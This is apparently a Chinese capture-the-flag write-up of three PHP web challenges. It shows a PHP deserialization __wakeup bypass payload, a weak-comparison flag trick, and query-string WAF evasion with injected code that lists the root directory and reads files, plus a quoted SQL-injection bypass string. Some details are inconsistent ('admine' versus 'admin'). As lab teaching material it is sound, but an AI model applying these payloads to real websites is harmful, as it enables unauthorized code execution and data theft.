 # [极客大挑战 2019]PHP 1

1. 一进入题目，就有页面提示我们“所以我有一个良好的备份网站的习惯”
2. 所以我们尝试着输入网站源码备份文件，看看能否访问

    常见的网站源码备份文件后缀:

    tar.gz，zip，rar，tar，bak，swp

    常见的网站源码备份文件名：

    web，website，backup，back，www，wwwroot，temp
3. 发现www.zip可以成功获得网站源码备份
4. 下载后，发现有3个php文件
5. 我们先访问一下 index.php文件，发现文件包含 class.php 文件 并且文件是get 传参，参数为 select

   unserialize 函数允许将序列化后的数据转换回原始的 PHP 对象或数据结构，并在必要时通过调用 __wakeup() 方法来执行一些额外的操作

   __wakeup() 是一个特殊的魔术方法，用于在对象从序列化状态被恢复时执行某些操作。开发者可以在这个方法中实现任何必要的初始化逻辑，例如重新连接到数据库、重新打开文件或执行其他必要的操作
6. 访问 class.php
```php
 <?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```
7. 设置两个私有变量 ，利用 __construct 构造函数 来进行一个一一对应的关系,之后__wakeup() 让 username 变量等于 guest

    在类结束的时候，调用__desctruct()函数 ，如果这个 password不等于100 ，就会输出 username… password… ，退出函数。如果 username= admine 就会输出 flag 否则 失败。

    在本题的关键，就是username的赋值 因为 __wakeup 会对userneme进行一次赋值，所以我们要想办法绕过该函数， 并且在一开始我们要改变 username的赋值
>当成员属性数目大于实际数目时可绕过wakeup方法
8. 构造payload
```php
<?php
class Name{
    private $username = 'admine';
    private $password = '100';
}
$select = new Name();
$res=serialize(@$select);
echo $res
?> 
```
即O:4:"Name":2:{s:14:"%00Name%00username";s:6:"admine";s:14:"%00Name%00password";s:3:"100";}
8. 因为当成员属性数目大于实际数目时才可绕过wakeup

   所以我们要将 2 改为 3 或者 比二大的数字
9. ?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";}

# [ACTF2020 新生赛]BackupFile 1

1. 题目有提示:Backup file,翻译成中文就是备份文件的意思
2. 扫描python3 dirsearch.py -u http://62b4c3e1-0c2e-4913-bbb0-f4c4dcf76ffb.node5.buuoj.cn:81/ -e*
3. 找到/index.php.bak的文件
4. 查看PHP代码
```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
$str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
if($key == $str) {
    echo $flag;
}

}
else {
    echo "Try to find out source file!";
} 
```
5. 是弱类型的比较题

   在PHP中:

   = = 为弱相等，即当整数和字符串类型相比较时。会先将字符串转化为整数然后再进行比较。比如a=123和b=123admin456进行= =比较时。则b只会截取前面的整数部分。即b转化成123

   所以，这里的a = = b是返回True

   所以这里我们只需要提供一个参数?key=123就可以拿到flag了

# [RoarCTF 2019]Easy Calc 1

## 知识点

我们知道PHP将查询字符串（在URL或正文中）转换为内部GET或的关联数组_POST。例如：/?foo=bar变成Array([foo] => “bar”)。值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。例如，/?%20news[id%00=42会转换为Array([news_id] => 42)。如果一个IDS/IPS或WAF中有一条规则是当news_id参数的值是一个非数字的值则拦截，那么我们就可以用以下语句绕过：

/news.php?%20news[id%00=42"+AND+1=0–

上述PHP语句的参数%20news[id%00的值将存储到$_GET[“news_id”]中。

HP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：

1.删除空白符

2.将某些字符转换为下划线（包括空格）

## 解

1. 查看源代码,访问calc.php
2. 尝试给num传参：发现只能传数字 而不能传字母
3. 那我们可以利用PHP的字符串解析特性来绕过WAF,在num前面加上空格 
4. 绕过num传参后，我们要读取他根目录下的文件
```url
calc.php? num=print_r(scandir('/'));    
```
5. 却发现他没有返回我们想要的答案,发现calc.php中,发现他把  ' '  引号给过滤掉了 ,那就用chr()绕过，chr(47)就是斜杠/     
```url
? num=print_r(scandir(chr(47))); 
```
6. 输入后可以浏览根目录下的文件，而其中的f1agg就是我们要读取的文件
```url
? num=print_r(file_get_contents('/flagg'));

其中/flagg 用chr进行绕过

? num=print_r(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))); 
```
7. 得到flag